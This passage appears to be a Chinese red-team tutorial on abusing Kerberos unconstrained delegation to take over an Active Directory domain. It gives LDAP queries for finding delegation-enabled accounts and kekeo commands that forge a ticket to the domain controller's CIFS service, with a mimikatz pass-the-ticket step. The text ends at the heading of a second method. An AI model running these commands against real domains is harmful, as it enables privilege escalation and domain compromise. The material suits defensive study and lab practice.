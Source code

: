 ## 非约束委派攻击

当用户A访问了配置非约束委派的服务B，B会将A的TGT缓存在lsass内存中，方便下次使用，通过该TGT票据，能够访问到A能够访问的所有服务，所以，当我们查询到域内配置非约束委派的机器账户或服务账户时，如果能够获取该服务的特权，通过诱导域管访问该服务，将域管用户的TGT票据缓存到内存中，通过ptt来接管域控。

+ 寻找配置了非约束委派的账户

  因为配置非约束的委派的账户的UserAccount 配置了TRUSTED_FOR_DELEGATION flag位，TRUSTED_FOR_DELEGATION 对应是 0x80000 ，也就是 524288 。

  对应的规则为

  ```
  (&(objectCategory=computer)(objectClass=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))
  #服务账户
  (&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))
  #机器账户
  (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))
  ```

  可以在域内机器上使用adfind查找，ldapsearch同样适用于域外

![spnuser](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/tgas/spnuser.png)

域控机器默认设置为非约束委派

### 攻击手法一

**已知被设置非约束性委派属性的服务账号的口令明文，则可以获取域管理权限**

重新查一遍有哪些服务账户

![hackerhakcer](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/tgas/hackerhakcer.png)

假设我们在当前主机上获取到了hacker用户的明文密码，使用kekeo构造hacker服务账户的票据

```shell
tgt::ask /user:hacker /domain:hack.com /password:!qaz@WSX /ticket:hacker.kirbi
```

![hackerkirbi](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/tgas/hackerkirbi.png)

由于hacker用户被配置为非约束委派，通过构造该服务向域控的TGS票据，访问域控的CIFS服务

```
Tgs::s4u /tgt:TGT_hacker@HACK.COM_krbtgt~hack.com@HAKC.COM.kirbi /user:Administrator@hack.com /service:cifs/DC.hack.com
```

![kekeo2](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/tgas/kekeo2.png)

通过mimikatz ptt将该票据导入到内存中，即可访问域控的cifs服务

### 攻击手法二

**已控制非约束性委派服务账号所在的服务器结合打印机漏洞**
